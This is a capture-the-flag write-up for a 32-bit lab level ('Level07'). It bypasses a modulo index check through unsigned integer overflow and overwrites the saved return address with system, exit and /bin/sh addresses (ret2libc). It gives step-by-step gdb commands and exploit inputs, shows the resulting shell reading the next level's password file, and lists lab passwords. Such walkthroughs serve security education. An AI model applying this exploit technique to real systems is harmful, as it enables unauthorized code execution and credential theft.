 # Level07 - 32 bits - Bypass Modulo protection

## Local script usage

Requirements:

- `gdb-peda`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level07/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level07 | `GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8` |
| level08 | `7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC` |

## Steps to resolve on VM

See our assembly interpretation in [source file](../source.c)

We can notice multiple things:

- First, the program erases every arguments passed to the program and every environment variables. It means we can not use a shellcode passed in argument or exported as environment variable.
- We can store unsigned integers in an array and read them, while giving an index.
- The array has a size of 25 (`25 * 4 bytes`), but there is no protection to write beyond.
- Nonetheless there is a little protection: we can not write at indexes where `index % 3 == 0`. (It seems that EIPs are aligned, and this is a little protection).

As we can not execute a shellcode, we will try to use the ret2libc attack while overriding the return address with: `system_address` + `exit_address [optional]` + `/bin/sh`

First, we need to find `system`, `exit` and `/bin/sh` addresses

```shell
gdb-peda$ b*main
gdb-peda$ run
gdb-peda$ p system
  $1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

gdb-peda$ p exit
  $2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

gdb-peda$ searchmem "/bin/sh"
  Searching for '/bin/sh' in: None ranges
  Found 1 results, display max 1 items:
  libc : 0xf7f897ec ("/bin/sh")
```

Perfect ! Now we have to find the return address in the GOT of main function.

```
gdb-peda$ info frame
Stack level 0, frame at 0xffffd640:
 eip = 0x8048723 in main; saved eip 0xf7e45513
 called by frame at 0xffffd6b0
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd640
 Saved registers:
  eip at 0xffffd63c
```

We have everything we need to build exploit.

To summurize, we want write this payload at EIP address:

```
EIP_ADDRESS = SYSTEM_ADDRESS + EXIT_ADDRESS + SHELL_ADDRESS
                    |              |               |
0xffffd63c =   0xf7e6aed0      0xf7e5eb70      0xf7f897ec
```

Now, we have to store this payload at EIP address using `store_number`. So we need to find the indexes of EIP address regarding our array.

Lets get the array address.

```shell
b*store_number+6
run
(stdin) store
p $ebp+0x8 # int *data
  $9 = (void *) 0xffffd450
x/a 0xffffd450
0xffffd450:     0xffffd474  # <-- data[0]
```

Now we have to calculate the offset of EIP address:

```shell
p /d (int)(0xffffd63c - 0xffffd474) # eip_address - array_address
  456 # bytes
p /d 456 / 4
  114 # index

p 114 % 3
  0x0
```

But as `114 % 3 == 0`, we can not write enter this number as index.

We had to find a way to bypass this protection.

As `index` is an unsigned int, and as `index` is multiplied by 4, before storing the number, what happens if we use a number greater than `UINT_MAX + 1 / 4` ?

```shell
p (unsigned int)0x100000000 # UINT_MAX + 1
  0x0                       # stores at index 0

p /u (0x100000000 / 4) + 114
  1073741938                # stores at index 114

p 1073741938 % 3
  0x1                       # and it passes the check !
```

Lets check with a simple value

```shell
p /d 0x41414141
  1094795585 # AAAA

run
  Input command: store
    Number: 1094795585      # AAAA
    Index: 1073741938       # index 114
    Completed store command successfully
  Input command: quit

EIP: 0x41414141 ('AAAA')
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```

It segfaults while quiting the program. It is exactly what we wanted.

Lets build our exploit with `system`, `exit` and `/bin/sh`

```shell
Index 114: 1073741938 stores at index 114 (cf. above)
Index 115: 115 % 3 = 1 => we can use 115 as index
Index 116: 116 % 3 = 2 => we can use 116 as index


EIP_ADDRESS = SYSTEM_ADDRESS + EXIT_ADDRESS + SHELL_ADDRESS
                    |              |               |
0xffffd63c =   0xf7e6aed0      0xf7e5eb70      0xf7f897ec    # Addresses
               4159090384      4159040368      4160264172    # Unsigned int
                    |              |               |
               data[114]       data[115]       data[116]
               1073741938      115             116           # Indexes
```

Let try to get the shell:

```shell
~/level07
  Input command: store
    Number: 4159090384  # system 0xf7e6aed0
    Index: 1073741938   # Index 114
    Completed store command successfully
  Input command: store
    Number: 4159040368  # exit 0xf7e5eb70
    Index: 115
    Completed store command successfully
  Input command: store
    Number: 4160264172  # /bin/sh 0xf7f897ec
    Index: 116
    Completed store command successfully
  Input command: quit
$ whoami
  level08
$ cat /home/users/level08/.pass
  7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

## Sources

### Hack

- [FR - Retour à la libc](https://beta.hackndo.com/retour-a-la-libc/)

### Debugger

- [get return address GDB](https://stackoverflow.com/questions/32345320/get-return-address-gdb)

### C

- [Man fflush](https://linux.die.net/man/3/fflush)
- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man getchar](https://linux.die.net/man/3/getchar)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man scanf](https://linux.die.net/man/3/scanf)
- [Man strlen](https://linux.die.net/man/3/strlen)
- [Man strncmp](https://linux.die.net/man/3/strncmp)
